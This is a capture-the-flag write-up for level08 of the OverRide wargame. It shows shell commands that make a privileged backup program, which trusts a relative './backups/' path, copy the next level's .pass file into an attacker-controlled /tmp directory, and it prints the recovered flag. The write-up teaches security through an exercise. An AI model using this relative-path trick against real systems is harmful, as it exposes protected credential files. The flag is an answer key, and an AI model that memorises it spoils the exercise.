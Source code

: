 # Level08

This program performs a backup with av[1]. It tries to open it, create a backup file at "./backups/" + av[1] and use a logger in the file "./backups/.log".
Since the path is relative and not absolute, we can use "/tmp" as "." when we execute the program with his absolute path like this:

```bash
level08@OverRide:~$ pwd
/tmp
level08@OverRide:~$ echo 'Hello !' > ./my_file
level08@OverRide:~$ mkdir backups
level08@OverRide:~$ /home/users/level08/level08 ./my_file
level08@OverRide:~$ cat ./backups/my_file
Hello !
```

We managed to use our backups directory instead of the one located in $HOME where we have no rights.

If we try directly to read "/home/users/level09/.pass", we encounter this error:

```bash
level08@OverRide:~$ /home/users/level08/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

We can simply create the directory to store ".pass" inside our backups:

```bash
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

The flag is **fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S**
